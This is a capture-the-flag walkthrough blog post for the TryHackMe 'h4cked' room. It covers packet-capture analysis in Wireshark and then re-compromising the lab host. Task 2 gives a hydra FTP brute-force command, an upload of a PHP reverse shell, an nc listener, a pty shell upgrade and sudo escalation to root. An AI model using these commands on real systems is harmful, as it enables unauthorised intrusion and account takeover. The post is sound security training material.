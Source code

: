 ```yaml
---
layout: post
title: "h4cked"
date: 2021-03-20
ctf: true
excerpt: "Walkthrough for h4cked on TryHackMe"
tags: [hydra, reverse shell, Wireshark, packet analysis, rootkit]
comments: false
---
```


# h4cked

h4cked is an easy difficulty room on TryHackMe. Below are the steps I followed to answer the questions for this box.

## Hints

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you reviewed the packet capture to see what's going on?
    <li>Look for some commonly used services to find which one is being brute forced by the attacker.
    <li>Reviewing TCP streams will provide great insight into answering most of these questions.
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Use hydra to brute force the password for the service identified in Task 1.
    <li>Don't forget to start a listener on your attacker box.
    <li>What command can you use to gain elevated privileges once logged in?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

![h4cked question 1](/assets/img/h4cked1.png)

After downloading the pcapng file, open it up in Wireshark and then click on **Statistics** followed by **Protocol Hierarchy**. This will show you all the protocols utilized in this packet capture as shown below.

![h4cked Wireshark protocols](/assets/img/h4cked2.png)

Based on this, there are two protocols utilized, HTTP and FTP. Let's close this window and in the filter toolbar, enter the following:

**`ftp`**

![h4cked Wireshark ftp filter](/assets/img/h4cked3.png)

Next, right click on packet 49 (the first filtered packet) and select **Follow** and then **TCP Stream**

![h4cked Wireshark follow TCP stream](/assets/img/h4cked4.png)

The window that pops up shows you that this service has attempts to login to it as shown below, so **FTP** is the answer to Question 1.

![h4cked ftp TCP stream](/assets/img/h4cked5.png)



#### Question 2

This question asks you about a popular brute forcing tool.

![h4cked Question 2](/assets/img/h4cked6.png)

A quick Google search for **Van Hauser brute force tool** will reveal the answer of **hydra**

![h4cked Google van hauser brute force tool](/assets/img/h4cked7.png)

#### Questions 3 and 4

![h4cked Questions 3 and 4](/assets/img/h4cked8.png)

These can be found by following the steps in Question 1. Filtering Wireshark by ftp and then following the first TCP stream. This results in a username of **jenny** and a password of **password123**.

![h4cked Wireshark Questions 3 and 4](/assets/img/h4cked9.png)

#### Questions 5 and 6

![h4cked Questions 5 and 6](/assets/img/h4cked10.png)

In Wireshark, add the following as your filter:

**`ftp contains "PWD"`**

This filters out commands to only show FTP protocols that are running the PWD (print working directory) command. 

![h4cked Wireshark ftp PWD](/assets/img/h4cked11.png)

Follow the TCP stream (as you did for prior questions) and you will see the server's response to the PWD request, which is the answer to question 5. Further in this TCP is the answer to Question 6 as well.

![h4cked Wireshark ftp PWD TCP Stream](/assets/img/h4cked12.png)



#### Question 7

![h4cked Question 7](/assets/img/h4cked13.png)

Let's turn our focus to the ftp-data protocol in Wireshark and enter the following filter:

**`ftp-data"`**

![h4cked Wireshark ftp-data](/assets/img/h4cked14.png)

As we have done previously, Follow the TCP dream for the 2nd packet listed (431).

![h4cked shell.php URL](/assets/img/h4cked15.png)

#### Questions 8 - 13

![h4cked Questions 8-13](/assets/img/h4cked16.png)

For these questions you can filter with the following in Wireshark:

**`frame contains "whoami"`**

I assumed whoami was the command used as it's one of the first commands ran to gather information once a foothold has been established.

![h4cked Wireshark frame filter](/assets/img/h4cked17.png)

Once filtered, you can do another Follow TCP Stream to get answers to Questions 8 -13:

**Question 8**

![h4cked Question 8 answer](/assets/img/h4cked18.png)

**Question 9**

![h4cked Question 9 answer](/assets/img/h4cked19.png)

**Question 10**

![h4cked Question 10 answer](/assets/img/h4cked20.png)

**Question 11**

![h4cked Question 11 answer](/assets/img/h4cked21.png)

**Question 12**

![h4cked Question 12 answer](/assets/img/h4cked22.png)

**Question 13**

This one is somewhat general knowledge, but a quick Google search will likely get your answer. The answer is **rootkit**.

### Task 2

There is only one question that needs an answer, which is reading the flag.txt file. Here are the steps to follow to root this host. First, let's run hydra on the jenny user with the following command on our attacker host.

**`hydra -t 10 -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.237.6  ftp`**

Where 10.10.237.6 is the victim host's IP address. After a few minutes you will uncover the new password for jenny.

![h4cked hydra](/assets/img/h4cked23.png)

Great, now we know the FTP password for jenny. Let's download the reverse PHP shell located [here](https://github.com/pentestmonkey/php-reverse-shell). Save the file as **shell.php** in your user's home folder.

![h4cked reverse shell modification](/assets/img/h4cked24.png)

Next, let's ftp as the jenny user over to our victim host from our attacker host using the password we uncovered. To initially connect, run:

**`ftp <victim ip>`**

![h4cked ftp connection](/assets/img/h4cked25.png)

Next let's run:

**`bin`**

and

**`put shell.php`**

to change the mode to binary mode and upload the shell.

![h4cked upload reverse shell](/assets/img/h4cked26.png)

On your attacker host, run the following to open up a listener to catch the reverse shell:

**`nc -nvlp 4444`**

![h4cked nc listener](/assets/img/h4cked27.png)

Next, navigate to **http://\<attacker ip>/shell.php** and you should see a connection to your netcat listener.

![h4cked reverse shell connection](/assets/img/h4cked28.png)

Next, let's get a fully interactive shell with the following python command:

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**

![h4cked upgrade shell](/assets/img/h4cked29.png)

You will notice we are running as the www-data user. Let's run:

**`su jenny`** to switch over to the jenny user and enter the password we uncovered earlier.

![h4cked su jenny](/assets/img/h4cked30.png)

Next, let's run the following to change our privileges to root:

**`sudo su`**

![h4cked su root](/assets/img/h4cked31.png)

Next, run the following commands to change to the root user's home directory, list that directory's contents, navigate to the Reptile subdirectory, list that directory's contents, and then display the flag.txt file.

**`cd /root`**

**`ls -al`**

**`cd Reptile`**

**`ls -al`**

**`cat flag.txt`**

![h4cked root.txt](/assets/img/h4cked32.png)

And that is the end of this box! It has been fully compromised (again).

</details>
